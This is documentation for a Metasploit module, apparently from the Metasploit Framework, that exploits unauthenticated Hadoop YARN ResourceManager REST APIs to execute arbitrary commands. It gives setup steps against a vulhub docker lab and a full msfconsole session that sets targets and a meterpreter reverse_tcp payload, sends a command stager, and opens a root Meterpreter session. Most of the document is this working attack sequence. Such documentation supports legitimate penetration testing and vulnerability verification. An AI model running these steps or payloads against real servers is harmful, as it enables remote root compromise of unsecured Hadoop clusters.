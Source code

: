 ## Description

This module uses built-in functionality to execute arbitrary commands on an unsecured Hadoop server which is
not configured for strong authentication, via Hadoop's standard ResourceManager REST API.

## Vulnerable Application

**Vulnerable Application Link**

- docker

https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn

### Vulnerable Application Installation Setup.

Change dictory to `vulhub/hadoop/unauthorized-yarn`, and run `docker-compose up -d`

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/hadoop_unauth_exec```
  4. Do: ``set rhost x.x.x.x``
  5. Do: ``set rport 8088``
  6. Do: ``check``

``[+] 192.168.77.141:8088 The target is vulnerable.``

  7. Do: `set payload linux/x86/meterpreter/reverse_tcp`
  8. Do: ``exploit``
  9. You should get a shell.


## Scenarios

```
msf5 > use exploit/linux/http/hadoop_unauth_exec
msf5 exploit(linux/http/hadoop_unauth_exec) > show options

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/hadoop_unauth_exec) > set rhost 192.168.77.141
rhost => 192.168.77.141
msf5 exploit(linux/http/hadoop_unauth_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/http/hadoop_unauth_exec) > show options

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.77.141   yes       The target address
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/hadoop_unauth_exec) > set lhost 192.168.77.141
lhost => 192.168.77.141
msf5 exploit(linux/http/hadoop_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.77.141:4444
[*] Sending Command
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Sending stage (853256 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.77.141:4444 -> 172.20.0.3:34138) at 2018-05-15 03:21:17 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
